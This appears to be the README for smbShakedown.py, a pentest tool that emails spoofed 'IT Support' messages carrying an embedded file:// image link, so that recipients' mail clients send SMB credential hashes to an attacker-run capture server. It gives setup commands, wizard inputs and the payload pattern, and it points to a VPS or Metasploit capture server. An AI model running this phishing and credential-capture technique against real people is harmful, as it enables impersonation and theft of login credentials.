 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Usage
        Launch smbShakedown.py and follow the wizard:
        
        Enter SMTP Server address[smtp.gmail.com]: mail.myrelay.com
        ENTERED: "mail.myrelay.com"

        Enter your SMTP Server Port[587]: 25
        ENTERED: "25"

        Enter SMTP Server username[user@gmail.com]: beamr@gmail.com
        ENTERED: "beamr@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.0.0.7]: 
        ENTERED:10.0.0.7

        Enter "from name":[IT Support]
        ENTERED:IT Support

        Enter "from address":[itsupport@company.com]support@company123.com
        ENTERED:support@company123.com

        Enter recipient(s) name[Bob]: Nick
        ENTERED:Nick
        
        etc..

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server:
    
    1.Configure SMTP Relay server address:
    
    2.Enter SMTP Relay server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email: 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally:
    EX: Use a VPS

#Internal Pentest
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally:
    EX: Metasploit's SMB Capture server can be configured to automatically launch.

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.

